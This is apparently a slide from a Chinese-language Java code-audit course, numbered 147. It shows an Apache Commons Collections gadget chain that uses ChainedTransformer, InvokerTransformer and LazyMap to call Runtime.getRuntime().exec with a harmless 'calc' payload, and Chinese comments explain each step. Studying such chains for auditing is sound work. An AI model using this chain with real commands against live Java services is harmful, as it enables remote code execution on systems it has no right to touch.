

# 代码审计-源码分析
        Transformer[] transformers = {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer ct = new ChainedTransformer(transformers);
        Map decorate = LazyMap.decorate(new HashMap(), ct); //通过decorate传值，生成一个LazyMap对象
        decorate.get("1"); //调启
147